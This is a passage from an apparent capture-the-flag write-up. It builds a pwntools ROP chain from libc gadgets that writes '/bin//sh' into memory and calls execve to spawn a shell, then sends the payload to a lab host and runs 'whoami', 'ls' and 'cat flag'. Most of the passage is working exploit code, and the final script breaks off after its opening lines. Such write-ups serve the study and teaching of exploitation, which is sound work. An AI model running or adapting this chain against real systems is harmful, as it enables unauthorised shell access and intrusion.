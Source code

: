 Once again I used the glibc data section to write '/bin/sh' to  memory and just 
pointed execve's arguments to that newly written glibc data section.

	p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be080+16) # @ .data
	p += struct.pack('<Q', libcadr+0x000000000001b290) # pop rax ; ret
	p += '/bin//sh'                                    # rax = '/bin/sh'
	p += struct.pack('<Q', libcadr+0x0000000000091c99) # mov qword ptr [rdi], rax ; pop rbx ; pop rbp ; ret
	p += struct.pack('<Q', 0x4141414141414141) # padding
	p += struct.pack('<Q', 0x4141414141414141) # padding
	p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
	p += struct.pack('<Q', libcadr+0x0000000000088b75) # xor rax, rax ; ret
	p += struct.pack('<Q', libcadr+0x0000000000091c99) # mov qword ptr [rdi], rax ; pop rbx ; pop rbp ; ret
	p += struct.pack('<Q', 0x4141414141414141) # padding
	p += struct.pack('<Q', 0x4141414141414141) # padding
	p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be080+16) # @ .data
	p += struct.pack('<Q', libcadr+0x0000000000024885) # pop rsi ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
	p += struct.pack('<Q', libcadr+0x0000000000001b8e) # pop rdx ; ret
	p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
	p += struct.pack('<Q', libcadr+0x0000000000088b75) # xor rax, rax ; ret
	p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
	p+= struct.pack('<Q',0x3b)
	p += struct.pack('<Q', libcadr+0x000000000000269f) # syscall

Now to setup the sends for this large payload.

	r.sendline("2")
	for x in xrange(0,1):
		print r.recvline()
	r.sendline(payload)
	r.sendline("B"*len(payload)+p)

	#HOST = "192.168.56.101"
        PORT = 57365
        r = remote(HOST,PORT)
	r.sendline("whoami")
	print r.recvline()
	r.sendline("ls")
	print r.recvline()
	r.sendline("cat flag")
	print r.recvline()

The final script should now look like.

	from pwn import *
	def main():
		#Test Connection
		HOST = "192.168.56.102"
		PORT = int(raw_input("PORT:").rstrip("\n"))
		